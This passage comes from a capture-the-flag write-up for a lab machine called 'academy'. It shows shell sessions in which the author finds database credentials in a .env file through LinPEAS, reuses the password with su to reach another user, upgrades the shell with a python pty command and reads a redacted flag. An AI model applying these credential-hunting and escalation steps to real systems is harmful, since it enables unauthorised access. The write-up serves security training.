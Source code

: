 ```
www-data@academy:/home/cry0l1t3$ cd /home
cd /home
www-data@academy:/home$ ls
ls
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
www-data@academy:/home$ cd cry0l1t3
cd cry0l1t3
www-data@academy:/home/cry0l1t3$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@academy:/home/cry0l1t3$ ls -la user.txt
ls -la user.txt
-r--r----- 1 cry0l1t3 cry0l1t3 33 Sep 26 16:16 user.txt
www-data@academy:/home/cry0l1t3$
```

Now, we will execute the Linpeas script to look for potential vectors for privilege escalation. From the output, we were able to find an interesting environment file that shows the database credentials. However, we were not able to connect to the sql database using these credentials. 

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

However, let's try using the DB_PASSWORD to escalate our privileges to the ```cry0l1t3``` user, and it worked! Next, all we have to do is to stabilize the shell.

```
www-data@academy:/var/www/html/academy$ su cry0l1t3
su cry0l1t3
Password: mySup3rP4s5w0rd!!
$ cd /home/cry0l1t3
cd /home/cry0l1t3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
cry0l1t3@academy:~$ export TERM=xterm
export TERM=xterm
cry0l1t3@academy:~$ stty cols 132 rows 34
stty cols 132 rows 34
cry0l1t3@academy:~$ 
```

### Obtaining user flag
From here, all we have to do is to obtain the user flag

```
cry0l1t3@academy:~$ cat user.txt
cat user.txt
<Redacted user flag>
```
